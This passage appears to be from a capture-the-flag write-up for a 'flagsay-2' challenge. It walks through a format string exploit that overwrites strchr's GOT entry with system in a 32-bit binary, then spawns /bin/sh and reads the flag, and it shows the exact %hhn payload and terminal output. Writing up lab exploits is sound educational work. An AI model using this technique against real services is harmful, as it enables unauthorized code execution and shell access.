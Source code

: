 The address is the first 4 bytes after the comma. It is 4 bytes because the binary is 32 bit, not 64 bit like Config Console. We take this address and convert it to big endian to pass to another python script.

Address in little endian:
```
606c 69f7
```
Converted to big endian:
```
0xf7696c60
```
 
We then call our python script with this value in terminal 2 to generate the final format string.

Terminal 2:
```
$ python calc_system_fmt_str.py 0xf7696c60
%95x%44$hhn%35x%45$hhn                    %56x%46$hhn%147x%47$hhn

$
```

Copying this address into terminal 1 we have remapped the ```strchr``` function to ```system```. Now we need only enter ```/bin/sh```. Then we simply cat the flag.

Terminal 1:
```
%95x%44$hhn%35x%45$hhn                    %56x%46$hhn%147x%47$hhn
               _
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
             //                                                                                        8f8e049                           f77abc20             /
            //                                                        8048722                                                                                                                                            8f8e049     /
           //                                   /
          //                                   /
         //                                   /
        //                                   /
       //___________________________________/
      //
     //
    //
   //
  //
 //
/bin/sh
ls
flagsay-2
flag.txt
xinetd_wrapper.sh
cat flag.txt
0729f4ba0e0152ca2786f59d1a18b517
```
